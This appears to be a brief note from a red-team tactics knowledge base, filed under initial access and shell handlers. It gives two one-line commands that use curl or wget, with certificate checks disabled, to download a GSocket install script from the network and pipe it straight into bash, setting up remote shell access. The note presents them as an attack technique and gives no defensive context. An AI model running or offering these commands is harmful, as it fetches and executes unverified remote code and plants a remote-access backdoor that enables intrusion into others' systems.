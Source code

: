 # GSocket

```
$ bash -c "$(curl -fsSLk https://gsocket.io/y)"

$ bash -c "$(wget --no-check-certificate -qO- https://gsocket.io/y)"
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Shell Handler/Cross Platform/Manual/Netcat Variants/GSocket|GSocket]]
